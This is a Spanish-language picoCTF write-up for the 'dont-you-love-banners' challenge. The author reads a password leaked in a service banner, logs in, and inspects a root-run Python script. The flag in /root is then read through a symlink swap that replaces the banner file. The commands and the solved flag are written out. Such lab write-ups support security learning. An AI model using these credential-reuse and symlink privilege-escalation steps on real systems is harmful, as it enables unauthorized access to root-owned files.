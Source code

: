 # dont-you-love-banners

## Descripcion
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 50990`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 64431`. From the above information abuse the machine and find the flag in the /root directory.
## Solucion
Primero nos conectamos al primer servidor mencionado y obtenemos lo que parece ser una contraseña leakeada:
```shell
┌──(xrengariox㉿PC)-[~]
└─$ nc tethys.picoctf.net 50990                
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

Protocol mismatch.
```

Después, ingresamos al segundo server y accedemos con la contraseña que acabamos de recibir, además de responder algunas preguntas:
```shell
┌──(xrengariox㉿PC)-[~]
└─$ nc tethys.picoctf.net 64431
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```

Inspeccionamos los archivos que existen.
```
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ cat banner  
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
```

Encontramos un archivo llamado banner, el cual investigamos, sin embargo solo muestra un pequeño banner, por lo que vemos ahora lo que existe en root.
```sh
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr 15 20:40 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
```

Encontramos un script que imprimía el banner y verificaba las respuestas de seguridad
```sh
player@challenge:~$ cat /root/script.py
```

```python
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

En el banner nos da una pista, por tanto, eliminamos el banner y creamos un enlace que apunte a flag.txt
```
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
```

Cortamos la conexión, y volvemos a ingresar.
```
┌──(xrengariox㉿PC)-[~]
└─$ nc tethys.picoctf.net 64431
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}

what is the password?
```

Y asi obtenemos la flag:
```flag
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}
```
## Notas adicionales

## Referencias

